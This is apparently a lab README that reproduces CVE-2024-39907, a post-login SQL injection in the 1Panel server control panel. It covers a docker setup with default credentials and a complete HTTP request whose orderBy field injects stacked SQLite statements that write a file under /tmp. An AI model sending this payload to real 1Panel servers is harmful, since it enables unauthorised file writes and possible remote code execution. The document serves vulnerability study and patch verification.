

# 1Panel Control Panel PostAuth SQL Injection (CVE-2024-39907)

[中文版本(Chinese version)](README.zh-cn.md)

1Panel is a web-based Linux server management control panel that provides a graphical interface for server administration.

CVE-2024-39907 is a collection of multiple SQL injection vulnerabilities present in the 1Panel control panel. These vulnerabilities exist across several interfaces of 1Panel, where insufficient filtering could allow attackers to achieve arbitrary file writes and ultimately remote code execution (RCE). This vulnerability affects 1Panel versions v1.10.9-lts and earlier, and has been patched in v1.10.12-lts.

References:

- <https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2024/CVE-2024-39907.yaml>
- <https://github.com/1Panel-dev/1Panel/security/advisories/GHSA-5grx-v727-qmq6>
- <https://hub.docker.com/r/moelin/1panel>

## Environment Setup

Execute the following command to start a vulnerable instance of 1Panel v1.10.10-lts:

```
docker compose up -d
```

After the server starts, access `http://your-ip:10086/entrance` using the following default credentials:

- Port: `10086`
- Username: `1panel`
- Password: `1panel_password`
- Entrance path: `entrance`

## Vulnerability Reproduction

After logging into the 1Panel control panel with the default credentials, the vulnerability exists in the `/api/v1/hosts/command/search` endpoint where the `orderBy` parameter lacks proper input validation, allowing SQL injection attacks.

Send the following malicious POST request to exploit the vulnerability:

```
POST /api/v1/hosts/command/search HTTP/1.1
Host: your-ip:10086
Accept-Language: zh
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
Cookie: psession=your-session-cookie
Connection: close
Content-Type: application/json
Content-Length: 83

{
  "page":1,
  "pageSize":10,
  "groupID":0,
  "orderBy":"3;ATTACH DATABASE '/tmp/randstr.txt' AS test;create TABLE test.exp (data text);create TABLE test.exp (data text);drop table test.exp;",
  "order":"ascending",
  "name":"a"
}
```

The malicious payload in the `orderBy` parameter exploits SQLite's ATTACH DATABASE functionality to create arbitrary files on the server filesystem, demonstrating successful SQL injection. When processed, the 1Panel backend executes the injected SQL commands without validation, confirming the vulnerability exists and can be exploited.



The successful execution of these database manipulation commands confirms that the SQL injection vulnerability can be exploited to achieve potential remote code execution.
